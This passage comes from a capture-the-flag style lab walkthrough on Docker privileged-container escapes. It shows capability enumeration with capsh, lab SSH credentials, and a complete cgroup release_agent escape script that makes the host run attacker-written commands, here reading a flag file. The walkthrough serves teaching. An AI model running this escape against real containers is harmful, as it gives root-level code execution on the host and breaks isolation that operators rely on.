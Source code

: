 We can use a system package such as "libcap2-bin"'s `capsh` to list the capabilities our container has: `capsh --print` . I've highlighted a few interesting privileges that we have been given, but greatly encourage you to research into anymore that may be exploited! Privileges like these indicate that our container is running in privileged mode.

![](https://assets.tryhackme.com/additional/docker-rodeo/privileged-container/listcap2.png)

***

9.3. Connecting to the container:

Before we begin to exploit this for ourselves, you will need to deploy the new Instance attached to this Task. The vulnerabilities of the previous VM conflict with this exploit.

**Kali**

```
ssh root@$VICTIM -p 2244
Password: danny
```



Allowing a few minutes for the new Instance to deploy, I'm going to demonstrate leveraging the "sys\_admin" capability. We can confirm we have this capability by _grepping_ the output of `capsh` :

**Victim**

```
capsh --print | grep sys_admin
```

<figure><img src="https://assets.tryhackme.com/additional/docker-rodeo/privileged-container/getcap1.png" alt=""><figcaption></figcaption></figure>

This capability permits us to do multiple of things (which is listed [here](https://linux.die.net/man/7/capabilities)), but we're going to focus on the ability given to use us via "sys\_admin" to be able to [mount](https://linux.die.net/man/2/mount) files from the host OS into the container.

The code snippet below is based upon (but a modified) version of the [Proof of Concept (PoC) created by Trailofbits](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/) where they detail the inner-workings to this exploit well.



| <p>1.  mkdir /tmp/cgrp &#x26;&#x26; mount -t cgroup -o rdma cgroup /tmp/cgrp &#x26;&#x26; mkdir /tmp/cgrp/x<br>2.  echo 1 > /tmp/cgrp/x/notify_on_release<br>3.  host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`<br>4.  echo "$host_path/exploit" > /tmp/cgrp/release_agent<br>5.  echo '#!/bin/sh' > /exploit<br>6.  echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit<br>7.  chmod a+x /exploit<br>8.  sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"</p> |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/exploit" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /exploit
echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
chmod a+x /exploit
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

9.4. Let's briefly summarise what happens here:
